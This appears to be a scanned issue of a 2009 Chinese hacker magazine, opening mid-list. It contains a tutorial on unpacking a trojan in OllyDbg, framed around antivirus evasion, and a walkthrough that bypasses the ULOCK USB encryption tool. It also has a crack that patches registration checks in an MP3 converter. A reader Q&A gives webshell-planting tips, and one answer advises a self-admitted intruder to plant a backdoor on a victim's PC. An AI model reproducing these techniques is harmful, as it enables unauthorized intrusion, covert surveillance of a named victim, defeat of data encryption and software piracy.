- ACProtect 1.32
- ACProtect 1.35a
- ACProtect 1.40
- ACProtect 1.41
- ACProtect 2.0

确实够强悍的了，怎么样？不错吧？还提供有测试样本，赶快试试吧！

## 再谈未知壳的脱壳

## —— esp 定律的妙用（一）

- 从本文你可以学习到：
- 1. 手动脱未知壳的方法
- 2. 一些方法技巧

随着抓鸡啊、挂马啊等技术的发展，马马的免杀处理方面越来越显得重要起来，连以前的一些黑客高手也不得不先暂时放下手头“工作”，去学习如何免杀，以期望让自己的马马能够存活得久一点。上次我写了一篇《手动脱未知壳》，将这篇与上篇连起来学习，效果更佳。

### 信息收集

对于现在免杀后的木马来说，还能被查壳工具查出是什么壳应该算是一个不怎么合格的“免杀处理产品”，所以在技术手段的发展下，现在使用 PEiD 之类的查壳工具查出来的大部分是未知壳，如图 1。

可以看到，显示 **Nothing found [Overlay]**，这是一个比较合格的“免杀处理产品”，但实际上如何呢？我们还要往下看，对于木马这种程序来说，查看区段是不能忽略的一个步骤，如图 2。

看到了吗？从区段看并不能看出什么来，好像很正常的样子，嗯，又合格了一分！

## 2. Universal Import Fixer (UIF) v1.2 (FINAL)

这是一个脱壳修复工具，个人感觉很棒，我曾经脱 Themida 壳的时候用它来修复，速度真的是爆强，个人非常推荐！

### 3、《脱壳破解练习》精华集一

这是由吾爱破解论坛发布的第一集脱壳破解电子文集，电子书做得很精美，很吸引人的眼球。另外，文章内容的技术含量也是非常高的，所以如果你想向脱壳方面学习的话，这是一个非常不错的选择。

相关连接：http://www.52pojie.cn/thread-18724-1-1.html

**小提示：** 有时候从区段中我们是可以发现一点端倪的，所以这一步最好不要忽略！

### 脱壳过程

对于脱壳来说，最好的手动工具莫过于 OD 了，所以调试工具全程使用 OD 来完成！

**小提示：** 假如你还想了解更多的 OD 使用技巧及知识，请参考“黑手”出品的《精通破解工具》一书。

载入到 OD 之后，很自然地停在入口处，如图 3。

看到了么？就算你认为自己对各种语言的入口点很熟悉，来到这个入口处，你也会看得傻了眼！因为这对于你来说，是非常陌生，当然我也不例外，不过这并不能成为我放弃的理由！F8 一下，来到 00401117 地址处，这时让我们看看 OD 寄存器中的 ESP 变化吧，如图 4。

从图 4 中可以看到，**ESP 处数据值由在入口处的 0012FFC4 变成了 0012FFC0**，并且该处显示为红色，这时正是使用 esp 定律的好时机。OK，在命令行插件中输入 `hr esp` 并回车，如图 5。

```text
F9 运行后，中断在如下位置：

0040111F    C1FE 16        sar    esi, 16
```

```text
继续 F9，中断在如下位置：

0040130F    BA 0C000000    mov    edx, 0C
00401314    90             nop
00401315    01D1           add    ecx, edx
```

```text
继续 F9，中断在如下位置：

00401323    8B3A           mov    edi, dword ptr [edx]
00401325    66:C1CA 03     ror    dx, 3
```

```text
第四次 F9 后，中断在如下位置：

004014DE    40             inc    eax
004014DF    89F1           mov    ecx, esi
004014E1    21D2           and    edx, edx
```

往下的代码，我们还是无法看出什么来，乱乱的，实在太乱了！如果这里开始 F8 跟的话，我估计会很快挂掉，我没试，有兴趣的试试吧！我继续 F9，第九次中断在如下位置：

```text
00403D99    60          pushad
00403D9A    53          push    ebx
00403D9B    58          pop     eax
00403D9C    BA 00500200 mov     edx, 250000
00403DA1    01C2        add     edx, eax
```

看到 00403D99 处的 pushad 这一句，我总觉得很眼熟，所以我往下看了看代码：

```text
00403EE4    4E          dec     esi
00403EE5    47          inc     edi
00403EE6    E2 F0       loopd   short 00403ED8    /// 很眼熟吧？
00403EE8    F7D0        not     eax
00403EEA    C3          retn                    /// 也很眼熟吧？
00403EEB    01C7        add     edi, eax
00403EED    81F0 9302795A xor   eax, 5A790293
00403EF3    C2 4800     retn    48              /// 这里呢？
00403EF6    79 0E       jns     short 00403F06
00403EF8    E4 A4       in      al, 0A4
```

这几行代码也不会觉得陌生吧？很眼熟是不是？好像快到 OEP 的样子。这里删除刚才下的 ESP 断点，如图 6。

删除之后，在 00403EEA 处下普通断点，如图 7。

下了断点之后，F9 运行，发现“砰”的一声就断下来了，我感觉真的有戏了，F8 单步一下，返回到如下位置：

```text
0017ACD0    01C0        add     eax, eax
0017ACD2    89DE        mov     esi, ebx
```

再往下看看，又是一个非常眼熟的 retn，代码如下。

```text
0017AD2C    01C1        add     ecx, eax
0017AD2E    B8 00000000 mov     eax, 0
0017AD33    66 C1C7 02  rol     di, 2
0017AD37    C3          retn                    //// 眼熟的代码
0017AD38    81CE 5B979B83 or     esi, 839B975B
```

这里当然在 0017AD37 处下普通断点吧。“砰”的一声又中断了下来，继续单步一下，来到如下位置：

```text
00424460    60          pushad
00424461    BE 00804100 mov     esi, 00418000
00424466    8DBE 0090FEFF lea    edi, dword ptr [esi+FFFE9000]
0042446C    57          push    edi
0042446D    EB 08       jmp     short 0042447A
0042446F    90          nop
```

开始我还以为是返回到 OEP，结果看到这个代码也非常眼熟，是 UPX 壳的入口代码啊！不信？证明给你看看，我就在这里将它 dump 下来，用 PEiD 查看，如图 8。

虽然初看是显示 Nothing found *，但是使用“核心扫描”之后，你就能够看到如图 8 的显示效果了。我刚才说的没错吧？虽然这里不是 OEP，但是接下来的事情就容易多了，毕竟 UPX 我已经脱过无数遍了，哈哈！将代码往下滚，来到如下位置：

```text
004245E7    75 FA       jnz     short 004245E3
004245E9    83EC 80     sub     esp, -80
004245EC    E9 D559FFFF jmp     00419FC6    /// 返回OEP处
004245F1    0000        add     byte ptr [eax], al
004245F3    0000        add     byte ptr [eax], al
004245F5    0000        add     byte ptr [eax], al
```

这里的地址 004245EC 处的 jmp 就是准备返回 OEP 的了，所以在这里下断点，中断后返回来到如下位置：

```text
00419FC6    55          push    ebp
kernel32.7C800000       /// OEP
00419FC7    8BEC        mov     ebp, esp
00419FC9    6A FF       push    -1
00419FCB    68 70C64100 push    0041C670
00419FD0    68 209D4100 push    00419D20
jmp 到 msvcrt._except_handler3
```

果然这里就是 OEP 了，藏得真够深的，不过还是被揪出来了。既然都到这里了，还不拿出 LordPE 来 dump，如图 9。

Dump 出来自动保存为 dumped.exe，再运行 ImportREC.exe 来修复 IAT，填上 **OEP=19FC6**，点击“AutoSearch”，弹出对话框如图 10。

再点击“Get Imports”获得函数，如图 11。可以看见函数都很好地修复了，最后点击“Fix dump”修复完毕！再用 PEiD 查壳一下，如图 12，显示 **Microsoft Visual C++ 6.0**，嗯，脱壳完毕！

自己测试了一下可以正常运行，不过此程序会被卡巴报为 **Trojan.Win32.Agent.bfgh**，所以测试还请大家多多小心，建议

## 移动加密大师 ULOCK 的破解之路

从本文你可以学习到：
- ULOCK 的破解方法

### 破解思路一

现在 U 盘已经非常普及了，大家可以把自己电脑上的数据保存到 U 盘中，方便携带，实现了数据的“可移动性”。有些朋友的数据是机密性的，不想让第三方看到，所以 U 盘数据加密便提上议事日程。移动加密大师 ULOCK 就是一款不错的 U 盘数据加密软件，现在 U 盘数据一般都用这软件进行加密。但是，作为一名黑客技术爱好者，就不免要研究下如何破解这款软件的加密过程。为了测试方便，这里首先要设置一下系统选项。

我们到资源管理器中，选择“工具”→“文件夹选项”，在弹出的“文件夹选项”对话框中，勾选“显示所有文件和文件夹”，去掉“隐藏受保护的操作系统文件”和“隐藏已知文件类型的扩展名”前面的勾，如图 1。


在虚拟机的系统下测试！

经过上面的设置之后，现在就开始插入 U 盘，并且按照 ULOCK 的操作提示把 ULOCK 复制到 U 盘目录中。这是首次使用 ULOCK 来对 U 盘中的 2233 这个文件夹进行加密设置，我设置的密码是“123”，如图 2。


输入密码完毕之后，单击“加密”按钮保存设置，现在可以看到 2233 文件夹内的文件消失了。此时要想显示刚才的文件，就要双击运行 ULOCK 这个程序，在弹出的窗口中输入密码，如果密码输入错误，就无法进入，如图 3。


但是，这里可以看到加密后的 2233 文件夹中多出了一个 DESKTOP.INI 文件和一个 THUMBS.DN 文件夹。打开这个文件夹之后看不到任何东西，虽然在 WINDOWS 系统的资源管理器中看不到存在文件，但是我们可以使用 WSYSCHECK 来查看真正躲藏的文件。


### Cracker

打开 WSYSCHECK 之后，可以看到在这个 THUMBS.DN 文件夹中，存在陌生的 1.MEM、2.MEM、3.MEM 这三个文件，发扬探索发现的精神，笔者把这三个文件 COPY 出来，如图 4。

虽然复制出来了，但还真不知道这些文件是什么。现在使用 C32ASM 打开 1.MEM 文件，看到了一个 MZ 头，说明是 EXE 文件，如图 5。


图 5 用 C32ASM 打开 1.MEM

于是，笔者脑袋中出现了一个念头，如果把这个 1.MEM 文件的后缀名修改为 EXE，是否就会让文件露出真面目呢？来试试吧！大胆地把这个 1.MEM 修改为 1.EXE，结果……居然就解密了。修改后缀名后并且运行，结果一切正常，如图 6。


图 6 使用正常

接着把 2.MEM 使用 C32ASM 打开后，可以看到一个 RAR 文件头，于是大胆地把 2.MEM 文件名修改为 2.RAR，然后双击执行，果不其然，这就是一个 RAR 文件，如图 7。

按照同样的原理，使用 C32ASM 打开这个 3.MEM 文件，可以看到是 BM 头，大胆猜想这个文件就是一个 BMP 格式文件。


图 7 修改为 2.RAR 可以执行


图 8 修改为 3.BMP 可以打开

于是把 3.MEM 文件名修改为 3.BMP，双击运行，大快人心，果然就是 BMP 文件，如图 8。

现在笔者猜想，WSYSCHECK 工具中显示的这个“117789687LIST.mem”文件应该就保存了一份 MEM 文件和原始文件的对应列表。我们打开这个“117789687LIST.mem”文件后，文件是加密的，看来无法破解，加密数据如下：

```text
BAE5CBD6D7F0C5D2BFD42B686B6F080E342A686168090F4F724970776C672B617D61080E372A686168090FD0DF51C0C8CCCBD2B45D54CAB1C8B72B766476080E362A686168090F
```

### 破解思路二

在上面的破解过程中，笔者看到了一个没有后缀名的“117789687”文件，于是大胆猜想这个文件就是保存了密码数值的文件。本着这个想法，笔者再次使用 ULOCK 来对 5566 这个目录进行加密。这次我们输入的加密密码为“123456”，如图 9。


图 9 设置密码

加密完成后，同样使用 WSYSCHECK 打开 5566 文件夹，在其中可以看到一个“117789687”文件，打开这个文件，可以看到内容为“-343636303032”，如图 10。


图 10 文件内容


看到这个“-343636303032”之后，怎么看都像是密码。现在，就浮现了一个破解思路，如果我把前一例中的那个“117789687”文件（密码为“123”）覆盖掉这个文件，是否会把密码也“覆盖”成为“123”？

说干就干，使用 WSYSCHECK 的复制、粘贴功能，把原来的 2233 文件夹中的“117789687”文件覆盖掉 5566 文件夹中的“117789687”文件，如图 11。

现在，运行 5566 目录中的这个 ULOCK 文件，输入密码“123”，居然提示“解密成功”，哈哈哈！大名鼎鼎的移动加密大师 ULOCK 就这样被“双重”破解了，如图 12。


> 【本文所涉及的相关程序已收录在光盘工具中】

**编辑点评：**

其实很多时候解密又何须一定要 OD 之类的调试工具呢？只要知道其中的奥妙，那么加密将不堪一击！本文就给大家一个非常好的例子，有时候把思路放宽一点，可能又是另一片光明。

## 简单破解——MP3 转换程序

**从本文你可以学到：**
- 简单的破解知识

写这篇文章时，我已经不再从事计算机行业，但我要说一句发自内心的话——感谢《黑客手册》！是你在激励着我不断地努力。正因为你面向大众化，才让更多的人了解你、理解你。当然，我也会一如既往地支持你。本文没什么难的技术，但对喜欢听歌的你肯定有用。

两个月前，练习截拳道时在网上下了个“李小龙电影剪辑.mp4”文件，当时很想把它转换成 MP3 格式传到手机上听，可一直都没有时间。正好这次有空，所以就去找了这方面的软件，我找到两个，一个是 Total Video Converter，这个软件功能很强大，但是在转换成 MP3 格式后传到我手机上却无法听！于是又试试另外一个软件，叫宽网 MP3 转换录音器，可是要注册。我在软件破解这方面比较弱智，一看到这个心里自然就不爽，但我太喜欢这首歌了，所以决定碰碰运气，没准还能成功呢。


下面就来简单分享一下破解过程，很简单的，高手看了就请把完整的破解思路留给读者们吧。

我直接用程序进行转换，这个程序有个小问题，就是有些按钮要点多次才有反应。在转换的过程中弹出了如图 1 的对话框，看来非要注册才行。

用 PEiD 查壳，发现没有加壳，是用 VC++ 写的，运行程序后点“注册”，出现如图 2 的注册框。

“生成注册码”按钮用于生成用户的信息，然后通过 E-Mail 来获取注册码，这里我们随便输入，如 1234567812345678，点“产品注册”按钮之后程序自动退出，什么信息也没有提示。在注册表中输入上面的注册码也没有查到什么信息，这还真让人挺郁闷的。于是用 OD 载入，右击选择“超级字串参考”，再选“查找 ASCII”，然后找一些重要的提示信息，如图 3，找到一处。


直接双击进去查看，进去之后的重要代码如下：

```asm
0041EB4A    8BC8          MOV ECX,EAX
0041EB4C    83E1 03       AND ECX,3
0041EB4F    F3:A4         REP MOVS BYTE PTR ES:[EDI],BYTE PTR DS:[ESI]
0041EB51    837A F8 10    CMP DWORD PTR DS:[EDX-8],10
0041EB55    74 1A         JE SHORT changemp.0041EB71

// 这里必须跳，把 JE 改为 JMP，不然程序就会退出。直接双击这行代码把 JE 改为 JMP。
0041EB57    8B4B 60       MOV ECX,DWORD PTR DS:[EBX+60]
0041EB5A    41            INC ECX
```

```asm
0041EB5B    8BC1            MOV EAX,ECX
0041EB5D    894B 60         MOV DWORD PTR DS:[EBX+60],ECX
0041EB94    F3:A7           REPE CMPS DWORD PTR ES:[EDI],DWORD PTR DS:[ESI]
0041EB96    74 1A           JE SHORT changemp.0041EBB2
// 同样必须跳。把 JE 改为 JMP。
0041EB98    8B4B 60         MOV ECX,DWORD PTR DS:[EBX+60]
0041EB9B    41              INC ECX
0041EB9C    8BC1            MOV EAX,ECX
0041EB9E    894B 60         MOV DWORD PTR DS:[EBX+60],ECX
0041EBA1    83F8 03         CMP EAX,3
0041EBA4    0F8C E1000000   JL changemp.0041ECB8
0041EBAA    6A 00           PUSH 0
/status = 0
0041EBAC    FF15 A8C74800   CALL DWORD PTR DS:[<&MSVCRT...]
exit>        \exit
```

```asm
// 这就是第二次点击注册按钮。
0041EBB2    8D4C24 24       LEA ECX,DWORD PTR SS:[ESP+24]
0041EBB6    6A 04           PUSH 4
0041EBB8    51              PUSH ECX
0041EBB9    FF15 68E24D00   CALL DWORD PTR DS:[4DE268]
0041EBBF    83C4 08         ADD ESP,8
0041EBC2    3D 80000000     CMP EAX,80
0041EBC7    7C 05           JL SHORT changemp.0041EBCE
0041EBC9    2D 80000000     SUB EAX,80
0041EBCE    83F8 04         CMP EAX,4
0041EBD1    74 1A           JE SHORT changemp.0041EBED
// 还是必须跳。同样把 JE 改为 JMP。
0041EBD3    8B4B 60         MOV ECX,DWORD PTR DS:[EBX+60]
0041EBD6    41              INC ECX
0041EBD7    8BC1            MOV EAX,ECX
0041EBD9    894B 60         MOV DWORD PTR DS:[EBX+60],ECX
0041EBDC    83F8 03         CMP EAX,3
0041EBDF    0F8C A6000000   JL changemp.0041ECB8
0041EBE5    6A 00           PUSH 0
/status = 0
0041EBE7    FF15 A8C74800   CALL DWORD PTR DS:[<&MSVCRT...]
exit>        \exit
```

```asm
// 这就是第三次点击注册按钮，接着程序就会直接退出。
0041EBED    8D4C24 10       LEA ECX,DWORD PTR SS:[ESP+10]
0041EBF1    E8 DAD30300     CALL changemp.0044EFD0
0041EBF6    8D7C24 24       LEA EDI,DWORD PTR SS:[ESP+24]
0041EBFA    83C9 FF         OR ECX,FFFFFFFF
0041EBFD    33C0            XOR EAX,EAX
0041EBFF    C78424 2C010000 00000000  MOV DWORD PTR SS:[ESP+12C],0
0041EC0A    F2:AE           REPNE SCAS BYTE PTR ES:[EDI]
0041EC0C    F7D1            NOT ECX
0041EC0E    2BF9            SUB EDI,ECX
0041EC10    8D4424 24       LEA EAX,DWORD PTR SS:[ESP+24]
0041EC14    8BD1            MOV EDX,ECX
0041EC16    8BF7            MOV ESI,EDI
0041EC18    BF 10F64C00     MOV EDI,changemp.004CF610
0041EC1D    50              PUSH EAX            // Arg4
0041EC1E    C1E9 02         SHR ECX,2
0041EC21    F3:A5           REP MOVS DWORD PTR ES:[EDI],DWORD PTR DS:[ESI]
0041EC23    8BCA            MOV ECX,EDX
0041EC25    68 38634A00     PUSH changemp.004A6338
\whmpegnet.ini
// 注册码保存在文件“whmpegnet.ini”中。
0041EC2A    83E1 03         AND ECX,3
0041EC2D    68 2C634A00     PUSH changemp.004A632C
\注册码号
0041EC32    F3:A4           REP MOVS BYTE PTR ES:[EDI],BYTE PTR DS:[ESI]
0041EC34    68 D0584A00     PUSH changemp.004A58D0
\宽网MP3转换录音器
0041EC39    8D4C24 20       LEA ECX,DWORD PTR SS:[ESP+20]
0041EC3D    C705 10DE4D00 7B000000  MOV DWORD PTR DS:[4DDE10],7B
0041EC47    E8 C4030300     CALL changemp.0044F010
changemp.0044F010:
0041EC4C    8B4B 20         MOV ECX,DWORD PTR DS:[EBX+20]
0041EC4F    6A 01           PUSH 1
```

```asm
0041EC51    6A 00           PUSH 0
0041EC53    51              PUSH ECX            ; hWnd
0041EC54    FF15 14C94800   CALL DWORD PTR DS:[<&USER32.InvalidateRect>]
InvalidateRect > InvalidateRect
0041EC5A    6A 00           PUSH 0
0041EC5C    68 485E4A00     PUSH changemp.004A5E48
产品注册码
0041EC61    68 10634A00     PUSH changemp.004A6310
产品注册码授权成功，谢谢使用
// 把上面三个 JE 改为 JMP 后程序就会很自然地走到这里来；也就是注册成功了，注册码随意输。
0041EC66    8BCB            MOV ECX,EBX
0041EC68    E8 257E0600     CALL <JMP.&MFC42.#4224>
MessageBoxA@CWnd>
0041EC6D    8B13            MOV EDX,DWORD PTR DS:[EBX]
0041EC6F    8BCB            MOV ECX,EBX
0041EC71    FF92 C6000000   CALL DWORD PTR DS:[EDX+C6]
0041EC77    8D4C24 10       LEA ECX,DWORD PTR SS:[ESP+10]
0041EC7B    C78424 2C010000 00000000  MOV DWORD PTR SS:[ESP+12C],0
0041EC86    E8 75030300     CALL changemp.0044F000
0041EC88    8B8C24 24010000 MOV ECX,DWORD PTR SS:[ESP+124]
// 如果上面不改就会跳到这儿直接退出。
0041EC92    5F              POP EDI
```

怎么样，还是照着一步步来就很简单吧？看起来注册验证很可怕，但只要努力去做了还是有希望的，我们再来输入注册码看看。如图 4，怎么样，注册成功了！程序界面也由未注册变成了已注册，如图 5。


再来看看注册码是不是放在上面的文件中，如图 6。现在再来转换前面的那首 MP4，结果转换成功了，但是直接在“.ini”的文件中加入注册码授权号是不会成功的。


好了，文章就到这里，算法分析不是我的强项，就拿给各位高手大显身手吧。09 年已经过去了，在这里给大家拜个晚年，祝“黑手”的所有工作人员身体健康！牛年好运！当然，还有“黑手”的新老 Fans 技术更上一层楼。

> 【本文所涉及的相关程序已收录在光盘工具中】

## 编辑点评

一篇比较简单的破解文章，我希望无论是入门或者没入门的读者们都能够看懂，因为在新手阶段，需要很多基础性的文字、通俗易懂的讲解，知识相对比较容易进入脑海中，这样对于存储方法是很重要的。

# 读编互动


**Q：** 数据库备份获得 webshell 出现问题！看过有些资料上写：asa 和 .asp 都能打开 asp 木马，可为什么我打开时却是 asp 中的代码？

**A：** 问题不是很清晰，如果是利用 SQL 的注入点进行 log 备份，那么插入一句话代码后，显示的是数据库备份的文件，利用一句话木马客户端连接就可以了。如果是后台进行数据库备份操作，只能说明你备份的目录不支持 asp，管理员在 IIS 里对虚拟目录进行了设置，你可以尝试更改数据库备份的路径，应该可以成功的。

原文链接：http://www.nohack.cn/bbs/thread-90424-1-1.html

**Q：** 我上传了 asp 木马，返回给我的地址是 upload/2009213116052467.swf，但是数据库备份里只有备份目录和备份名称这两项，没有当前文件路径这一项啊？不是要把 upload/2009213116052467.swf 填到当前文件路径这一项的吗？我要怎么才能把这个文件备份成 asp 呢？

**A：** 这种后台为了安全，一般定义了数据库备份的路径，而上传页面显然是自动修改了扩展。首先判断服务器是否为 win2k3，因为 IIS6.0 有目录解析的漏洞，程序既然可以定义备份目录，我们可以建立一个 x.asp 的目录，把备份名称写成任意格式，这样该目录下的文件会以 ASP 脚本进行解析。而这种情况满足的前提是数据库里没有防下载的表，以及你成功地把一句话木马插入到数据库中。

如果非 IIS6.0 以及不能自定义目录，那么只能尝试后台把具体的定义写到了什么脚本里，例如确定 inc/config.asp 定义了网站基本信息，那么在后台把具体位置插入一句话木马就 OK 了。当然，对于实际入侵中，无法在常规模式下获取 webshell 的情况，尽量根据特定页面及后台透露的信息下载源码进行分析。

原文链接：www.nohack.cn/bbs/thread-90437-1-1.html

**Q：** 虚拟机密码被人锁住了，如何破解？刚下了华夏黑客联盟的一个 200M 左右的工具包，使用了一下 3389，结果突然重新启动，之后就密码上锁，用户名是 Darkteam，密码不知道是什么了，求解密的方法！

**A：** 你在虚拟机里运行了华夏的黑客工具包，运行了 3389 文件，系统就自动建立了一个用户名 Darkteam 的管理员账户。按照默认安装的系统或者 GHOST 镜像，默认管理员 administrator 的密码为空，那么只需要启动时按两次 Ctrl+Alt+Del 进入登录页面就可以进入了。当然，如果密码经过修改的话，使用 WinPE 等工具光盘引导可以轻松修改密码的。

针对你的问题我作如下指导：

首先对于网上下载的黑客程序，特别是这种名称是 3389 的程序，很显然是开启终端服务的程序。而这种一般都带有后门，建议你了解具体程序的用途后再运行，特别是带命令行的程序，千万要慎用。而虚拟机系统，安装后最好设置一个镜像文件，这样便于恢复，因为虚拟机本来就是用来调试的系统。

原文链接：http://www.nohack.cn/bbs/thread-90468-1-1.html

**Q：** 我的 VMware 6.0，虚拟机装的是 Windows 2003，物理机是 XP，虚拟机也是安装了 VMware Tools 的。前阶段用的是 5.53，能够进行拖拽，看网上说 6.0 有缺陷，不知道是否正确？我把文件从虚拟机拖到物理机上，就出现提示：“无法计算本地文件大小，你可能没有执行该操作的权限，正在中止文件复制操作”。而从物理机向虚拟机根本无法拖拽，请教下，是软件的问题？还是其它原因？

**A：** VMware 6.0 版本的确存在无法使用拖拽文件的 BUG，网上已经有相关的补丁可以进行修复了。针对这种问题，我建议你升级 VMware 的版本，因为 6.0 版的确存在一些 BUG。

原文链接：http://www.nohack.cn/bbs/thread-90341-1-1.html

**Q：** ping、netstat 命令失踪啦！我昨天明明还用过 netstat 和 ping 命令的，今天再用就出现提示，说“不是内部或外部命令，也不是可运行的程序或批处理文件”。这是怎么回事啊？谁来告诉我为什么？

**A：** 出现这种情况的原因一般就是环境变量被修改了，首先你需要确定你的命令文件是否存在于 %windir%/system32 下。如果目标文件夹中的文件存在，那么请修改默认的环境变量，在“我的电脑”的高级选项里，进入“环境变量”，重新设置为初始值。

其实用 SET 命令是可以看到具体变量路径设置的，建议你弄清楚这个概念。环境变量还可以通过设置让我们把一些小工具直接在 cmd 下调用，形如 sendto 一样方便。

原文链接：http://www.nohack.cn/bbs/thread-90108-1-1.html

**Q：** 我的 QQ 号原来一直在我的电脑上使用的，现在忘了密码，请问该如何办啊？听说有一种软件可以找到，请大侠指点，谢谢！

**A：** 请问你原来的 QQ 是设置了自动登录么？否则无法想象你怎么可能出现忘记密码的状况。如果是自动登录，那么在原来的电脑上采取 PROCESSVIEW+CAIN 的办法可以从 QQ 启动命令行中获取加密的字串，然后把 Cain 解码的 MD5 进行破解。如果无法破解，也可以把代码写成批处理直接调用就可以了。当然，如果原系统丢失以及找不到 QQ 的目录了，那么请采取 QQ 密码保护策略吧，现在采用二代保护，只要部分资料真实，并且你和客服咨询一下，应该是可以找回的。

原文链接：http://www.nohack.cn/bbs/thread-89992-1-1.html

**Q：** 为什么我用 3389 端口入侵她的机器后（我从不种植木马，况且我也不会啊，只是在学习这个思路），可以看到她在干什么，却不到一秒后，提示：“远程桌面已经断开”，我就断开了她的链接，到底是怎么回事啊？已经好几次都这样了，是因为她那边不允许远程连接吗？还是其它一些原因？

**A：** 很显然你入侵的是单用户工作站模式的 WinXP 系统，默认 WinXP 是不会开启远程终端的，估计对方安装的是某个镜像版本。当你的用户登录后，对方会有提示，解决的办法就是在一个她不在的时间，赶紧下载一个后门在对方机器执行。当然，WinXP 系统现在也可以通过修改支持多用户登录了，只是不稳定。

原文链接：http://www.nohack.cn/bbs/thread-89189-1-1.html

## 建议选摘

刚过完春节，元宵也吃完了，烟花也放完了，高楼也燃完了，还是收拾好心情，上班的上班，上学的上学，上传的上传……呵呵，来到了牛年，大家又有哪些新的计划呢？已经有目标了吗？“黑手”在牛年里，也将陆续为大家奉献上大餐，时常关注论坛（http://www.nohack.cn/bbs），你就能以最快速度得到最新消息哦！

**名字：** 邹亚雄

**职业：** 学生

**建议：** 有时候在网上邮购书，当拿到手后，发现光盘被压破了！心疼啊！所以呢，我希望“黑手”能把光盘用一个塑料胶盒之类的硬壳包装起来，呵呵，那样以后就不会出现破光盘的现象了。

我记得看的第一本“黑手”杂志封面是白色的，第一篇文章是空手写的（是用动网的“闯抓鸡”吧），但是现在就很少有编辑写的文章了，所以，呵呵，我想建议编辑也写点什么给我们看吧……

**全体编辑：** 其实大家已经好久没有专门地去搞机了，作者们的热情很高，稿件审核令我们无法抽身。我们把搞机的机会留给读者，大家可以通过文章来进行交流学习，或者到网站论坛（http://www.nohack.cn/bbs）留言提问。

**名字：** 永远的疯子

**职业：** 学生

**建议：** 光盘不错，有相关的电影，特别是那种能够引起人联想相关问题的片子。电子书也不错，我强烈建议“黑手”把那些有代表性的电影、电子书或者工具放到光盘上，方便学习。谢谢！

我希望看到的图书或文章是易入门的，有代表性的，能够启发思维的。我喜欢“黑手”的一个重要原因就是因为小编的点评，这是在其他杂志上所没有看到的，这些点评很重要，让自己学到了很多，有时比看原文有收获，希望“黑手”能够把这一特色发扬光大！

**菜锅推荐：** 不少读者会发问如何入道，偶的第一反应觉得这个问题很简单，第二反应才知道这个问题其实很不简单。因为这是一个接口的问题，能不能把学生领上道不在于老师的知识储备有多牛，而在于老师是否能用学生听得懂的语言把学生教会。现在——《黑客育婴手册》做到了这一点，不但详述了黑客入门所需要学习的知识要点，还用热门的小实例把内容串起来，让读者能在小小成功中保持学习的兴趣而轻松入门。本书有攻有防，让读者在掌握入侵的知识基础之上又涉入了防御之门，在正逆知识的思辨中全面地学习。快到论坛关注吧，《黑客育婴手册》等着你！  
http://www.nohack.cn/bbs/thread-90278-1-1.html

# 非安全黑客手册

安全 4 DVD  
发迹内幕  
No.2009.04  
定价￥10

NOHACK.CN  我爱商城 book.nohack.cn  淘宝店 taobao.nohack.cn  拍拍店 paipai.nohack.cn  本手册随光盘赠送

- 想骂人肉搜索
- ACG 时代的安全
- Tranner Dota 重出江湖
- XSS 通用的加油技巧
- 绿色和谐
- 砸在街头狙击手 Airsnarf
- 无线局域加密战
- 一根信号加 OWifizoo
- 增加一个 QQ 号的一些小把戏
- 精彩的 7 道题
- 简单分析国外下载包 Priv8
- Download3r-2.2
- 共享日记，右手皆是
- 玩转校园网入门


## DVD 影音/内参一览

- Windows 7
- 绿色浏览器 BBQ
- Hacker's Spy
- File Protector
- Shadow Security Scanner，Hackers 等版权付费软件（破解版）
- RouterOS 3.8 with crack 及配套动画
- WinHex 教程展示视频提供给真正人民群众初级版


电脑、计算机安全杂志提倡：非法入侵他人电脑是一种违法行为

## 从“山寨”现象看国内“黑客”

说起“山寨”，大家都不陌生吧？就算是不知道的，也应该从“山寨春晚”风波中有所了解吧？“山寨”在中国的社会文化传统中有着很深的渊源，山寨者，绿林好汉占据之山中营垒也，它是朝廷正统体制之外的小政权，说白了，山寨就是占山为王，不受官方管辖的地盘，这与黑客精神中的“自由、共享”四字很贴切，因此，黑客也就成了另类。

说起占山为王，自然联想到四大名著中《水浒传》里各路好汉，山寨里面的生活是好不逍遥，自由自在，不鸟朝廷。于是，“山寨”就成了流民草寇、占山为王的代名词，是中国特有的一种游离于官府统治之外的游民文化，也是我们文化遗产中的一个重要组成部分。

“山寨文化”的确深深地打上草根创新、群众智慧的烙印，但同时，它之所以采取了“山寨”的方式四处流窜，时有遭遇压制甚至扼杀的可能，又体现了它在当今文化格局中被排斥和边缘化的命运。

由于大众所知的原因，“山寨文化”无法参与主流文化规则的制定，同时，主流文化又无法去全盘控制文化活动的所有空间，因此，决定了“山寨文化”采取了一种并不十分激进的胡闹、恶搞、捣乱策略，玩起了躲猫猫。

“山寨文化”代表着一种以调侃、戏仿、戏谑主流文化为表现形式的草根文化和娱乐精神，说得更“严重点”就是恶搞！“山寨”的出现和蔓延使得主流显出几分不安，几分尴尬和几分无奈，既想打压又想招安。

“山寨文化”的流行显然从一个侧面体现了一些主流媒体难以满足相当数量的大众的文化需要，特别是青年的文化需要，甚至可以说，“山寨”的蔓延表明当今中国的文化不再是主流媒体一统江山，正如古代草寇出没打破了官方的一体化梦想。

网络这个平民化的大众传播媒介为草根创新提供了重要的土壤，“山寨”的核心是滑稽模仿，亦即戏仿。戏仿不是一般意义上的模仿，如果说一般的模仿把模仿对象当成仿效与学习的楷模，是学习的一种方法与手段；那么，滑稽模仿就是旨在颠覆模仿对象的一种模仿。

而“山寨文化”中，更多的模仿并不意味着学习，而是意味着颠覆。戏仿并不尊重原作，而是故意冒犯原作。在戏仿中经常使用的手法是随意的拼贴，把被戏仿的对象抽离其原来的语境，加以随意的拼贴，由于语境错置而产生荒诞、滑稽的效果。滑稽模仿与随意拼贴的含义都是旨在此而意在彼，其特点是语言与真实意义之间的错位、脱节以及由此造成的反讽效果。

“山寨文化”的生存空间不可一概而论，就如同“黑客”目前在国内的环境一样。这种生存空间的界限并不十分明确与刚性，而是处在不断变化和移动的过程当中。这种移动是试探性的，是经过反复的角力和协商之后双方妥协的结果，但更重要的、更具决定性的力量则在于社会解释程度与区域的变化。

而今的“山寨”虽然不再是指传统中与朝廷官府相对立的江湖草莽，但保留了与正统、主流、中心相对的非主流、非正统、边缘的含义。如今在国内，黑客似乎也已经边缘化，攻与防中间的线虽然不是很明显，但有些朋友已经开始迈腿，因为他们知道：白道黑道，不如无间道。两腿各自分路攻防，不仅没有失去什么，反而更能获得更多的东西。

以自我为中心的朋友绝对有很多，而不同人学习黑客的动机也不一样。“黑手”一直强调真正的黑客精神，其实如今，已经解释不清“黑客”的含义了，总之，存在就是合理，这就是黑客与山寨最相通的一点。看来，有了网络，主流“一统天下”的时代已经终结了！

## 3G时代的安全

# 新闻时评

